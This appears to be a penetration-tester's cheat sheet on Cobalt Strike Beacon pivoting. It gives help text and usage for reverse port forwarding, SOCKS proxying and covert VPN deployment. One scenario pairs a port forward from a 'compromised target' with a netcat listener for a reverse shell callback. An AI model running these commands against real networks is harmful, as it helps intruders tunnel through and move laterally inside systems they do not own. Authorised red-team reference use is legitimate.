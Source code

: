 # Cobalt Strike

## 01 - Rportfwd (Reverse Port Forwarding)

### 1.1 - Help Menu

- To bind ports for the server side.

```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```

- To bind ports for the operator side.

```
beacon> help rportfwd_local
Use: rportfwd_local [bind port] [forward host] [forward port]
     rportfwd_local stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port, via your
Cobalt Strike client, and use Beacon to relay traffic between the two connections.
```

### 1.2 - Usage

#### 1.2.1 - Syntax

```
beacon> rportfwd <bind_port> <forward_host> <forward_port>

beacon> rportfwd stop <bind_port>
```

### 1.3 - Scenarios

#### 1.3.1 - Shell Handler Reverse Callback Session

```
beacon> rportfwd_local add -b 0.0.0.0:5986 -r <compromised_target_IP>:5986

beacon> rportfwd_local 5986 <compromised_target_IP> 5986

$ nc -lnvp 5986
```

## 02 - SOCKS Proxy

### 2.1 - Help Menu

```
beacon> help socks
Use: socks [stop]
     socks [port]
     socks [port] [socks4]
     socks [port] [socks5]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

Starts a SOCKS4a (default) or SOCKS5 server on the specified port.
This server will relay connections through this Beacon.

SOCKS5 servers can be configured with NoAuth authentication (default),
User/Password authentication, and some additional logging.

SOCKS5 Servers currently do not support GSSAPI authentication,
UDP Association, and IPV6.

Use socks stop to stop the SOCKS servers and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```

### 2.2 - Usage

- Start SOCKS4A Proxy server.

```
beacon> socks <PORT> socks4
```

- Start SOCKS5 Proxy server with or without authentication. You can optionally enable logging when tunneling.

```
beacon> socks <PORT> socks5 <enableNoAuth | disableNoAuth> [username] [password] [enableLogging | disableLogging]
```

Refer to [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Pivoting and Lateral Movement/Pivoting/Linux/SOCKS Proxy/Proxychains]]

## 03 - Convert VPN Tunnel

Note: You must have elevated privileges on the windows target.

### 3.1 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

### 3.2 - Usage

```
beacon> covertvpn phear0 <new_IPv4_address>

user@pentestos:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```